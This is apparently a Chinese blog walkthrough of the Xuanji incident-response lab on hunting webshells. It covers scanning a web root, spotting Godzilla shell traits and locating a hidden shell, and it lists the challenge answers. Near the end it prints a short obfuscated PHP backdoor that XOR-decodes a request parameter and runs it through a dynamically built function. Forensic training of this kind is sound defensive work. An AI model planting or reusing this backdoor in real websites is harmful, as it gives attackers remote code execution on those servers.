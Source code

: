 ```yaml
---
title: 玄机-webshell查杀
date: 2024-11-17 22:47:15
permalink: /pages/a0b4dd/
categories:
  - wp
tags:
  - 玄机
  - wp
author: 
  name: the0n3
  link: https://the0n3.top
---
```

靶机账号密码 root xjwebshell

- 1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 2.黑客使用的什么工具的shell github地址的md5 flag{md5}
- 3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 4.黑客免杀马完整路径 md5 flag{md5}


可以使用xftp，xshell这些成熟工具连接靶机，操作方便


命令行ssh连接靶机，tar命令打包网站目录，scp命令把网站源码下载到本地

```bash
ssh root@ip
# yes,输入密码，默认输入不显示
cd /var/www/html
tar -czvf www.tar.gz -C /var/www/html .
```

windows本地下载靶机里打包好的源码，解压，使用D盾扫描一下，重点关注这些webshell

```bash
scp root@161.189.226.230:/var/www/html/www.tar.gz .
```

D盾扫一下，重点关注这些webshell，在include/gz.php中找到flag格式字符串

![1](/medias/xj-webshell/1.png)

![2](/medias/xj-webshell/2.png)

也可以使用`grep`命令通过`-E`参数正则匹配webshell里的flag，太香了。想学linux三剑客！

```bash
cat *.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,5}"
cat */*.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,4}-.{1,5}"
```

关于黑客使用的什么webshell工具

跟踪D盾扫描的记录，在`gz.php`,`include/Db/.Mysqli.php`都出现了`getBasicsInfo`，这也算是是`哥斯拉`的一个典型特征吧

![4](/medias/xj-webshell/4.png)

以及文件开头的隐藏行为

```php
@session_start(); - 开启一个会话。
@set_time_limit(0); - 设置脚本执行时间为无限。
@error_reporting(0); - 关闭所有错误报告。
```

[哥斯拉项目地址](https://github.com/BeichenDream/Godzilla)

```bash
php -a
echo md5('https://github.com/BeichenDream/Godzilla');
```

关于隐藏shell的完整路径的md5，在linux里，文件名以`.`开头是隐藏文件，那么这个隐藏shell还是`include/Db/.Mysqli.php`，完整路径就是`/var/www/html/include/Db/.Mysqli.php`

```bash
php -a
echo md5('/var/www/html/include/Db/.Mysqli.php');
```

最后，哪个是免杀马？免杀是什么？

> 免杀：免杀（也叫 绕过杀软 或 绕过检测）是指恶意软件、木马、病毒或攻击代码通过某些技术手段避免被常见的安全防护软件（如杀毒软件、入侵检测系统、入侵防御系统、Web应用防火墙等）检测到或阻止。

一些常见手段：

- 代码加密和混淆
- 动态加载或执行
- 特征伪装
- 错误抑制和日志隐藏
- 自我修改和变异

在`include/wap/top.php`的源码中，存在动态构造后门和编码的过程，可以认为是免杀马

![5](/medias/xj-webshell/5.png)

```php
<?php
$key = "password";
//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

参考、致谢：

- [玄机第一章 应急响应-webshell查杀](https://baozongwi.xyz/2024/10/24/%E7%8E%84%E6%9C%BA%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/)
- [玄机——第一章 应急响应-webshell查杀 wp（手把手保姆级教学）](https://blog.csdn.net/administratorlws/article/details/139521078)